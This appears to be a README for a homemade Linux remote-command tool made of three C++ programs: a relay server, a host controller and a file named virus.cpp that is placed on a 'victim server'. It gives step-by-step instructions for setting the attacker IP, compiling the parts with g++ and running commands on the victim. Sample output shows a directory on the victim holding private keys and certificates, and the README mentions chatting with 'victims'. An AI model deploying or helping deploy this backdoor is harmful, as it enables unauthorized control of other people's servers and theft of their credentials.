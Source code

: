 Linux Server only. Different version of Linux may rely on different .so files to link, thus I don't put certain version of executable here, please compile these 3 code manually

Step 1: Replace the ip address "192.168.80.132" in the tcsl.cpp and host.cpp


Step 2: Copy all the codes, tcsl.cpp to your Linux Server, virus.cpp to your victim server, host.cpp to your local machine as control side, and then compile:

g++ tcsl.cpp -o tcsl 
g++ host.cpp -o host 
g++ virus.cpp -o server 

Step 3: Open 3 terminals and run the command seperately:
./tcsl
And then you can run any amounts of Clients or Host with newly open up terminal
the Host is config as the last connected, after the server has been opened, you can lauch the host or client first either way
./virus
./host

Step 4: Enjoy your commands in the host terminal, it would reply the result send by you, for example:

┌──(root㉿kali)-[/home/kali/Desktop]

└─# ./host              
Connected to the server.

┌──(root♪hr0g) - [~]

└─# ls 1
ca.crt
ca.key
dh.pem
ha.crt
ha.key
hr0g.crt
hr0g.key
server.conf

┌──(root♪hr0g) - [~]

└─# 

use 'chatmode' to communicate with victims(under development)
